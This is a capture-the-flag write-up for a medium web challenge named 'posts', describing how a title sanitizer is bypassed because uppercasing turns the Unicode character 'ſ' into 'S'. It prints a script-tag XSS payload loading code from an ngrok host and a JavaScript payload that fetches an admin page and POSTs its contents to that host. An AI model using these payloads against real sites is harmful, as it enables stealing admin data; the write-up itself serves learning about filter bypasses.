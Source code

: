 # posts (310pts, 20 solved) Web & XSS [Medium]

## First look
When we open the website, we need to create an account or login. After doing that, we have some options to the right, `Posts` & `Dashboard`. The `Dashboard` function is the home page and on the `Posts` window, we can create and see our posts.  
When we create a post, we get a message: `Post created sucessfully. Now we are waiting for adming review.`  
Now we can review our post by going to the `Posts` window and clicking on one. We notice that our title is uppercased.

## Solving
From the page source, of a post, we can see that it tries to sanitze our input:
```js
function header(title, description) {
    if (typeof title != 'string') {
        return;
    }
    title = title.replace(/<([a-z])/ig, '&lt;_$1');
    title = title.toUpperCase();
    // console.log(title)
    $('#response').html('<h1 class="special">' + title + '</h1>' + description.replace(/<([a-z])/ig, '&lt;_$1'));
}

$(document).ready(function() {
    header(decodeURIComponent("foo"), decodeURIComponent("bar"));
});
```
From this, we notice that from our title and description, all things, starting with `<` followed by a letter: `a-z` (case insensitive), will be replaced with `&lt;_{input}`. This santizes the `description` properly, because there is no HTML element starting with a non `a-z` letter.  
However, our title is also uppercased, which we could to inject `A-Z` letters, because uppercasing some `Unicode` characters, will result into `ASCII` ones. We can create a quick script to bruteforce such a character:  
```js
let found = false;
let charToFind = "S";
let currentChar = 0;
while (!found) {
    let candidate = String.fromCharCode(currentChar);
    if (candidate.toUpperCase() == charToFind && candidate != charToFind && candidate != charToFind.toLowerCase()) {
        console.log(candidate);
        found = true;
    }
    currentChar++;
}
```
Which return the character: `ſ`.  

_Note: We're using a normal `script` tag for this. We do this, because if we use an `img` element, our code is also uppercased. And sice the code uses the `JQuery`, `html` function and not `innerHtml` variable, the script is normally loaded_  
_Note: We're also using `script`, because the host of our `script.src` is not uppercased, only the `query`, `parameters` & `path`_  
_Note: Spaces are replaced with `+` in our `title`_  
Keeping the above in mind, we can create our payload:
```html
<ſcript/src="http://{id}.ngrok.io"></script>
```
We're using `ngrok`, so we don't have to deal with the `Uri.path`  
And after we found where the flag was, we could send it to the same `ngrok`. Final payload:
```js
(async function() {
    let data = await fetch("/index.php?page=post&id=1");
    let text = await data.text();

    let res = await fetch("http://{id}.ngrok.io", {
        method: 'POST',
        body: text
    })
})();
```
And after a second, we get our flag: `DCTF{2299f10ed7b61518956b70f22f32d47916bca4d8a608ef4d62c1d881851a6771}`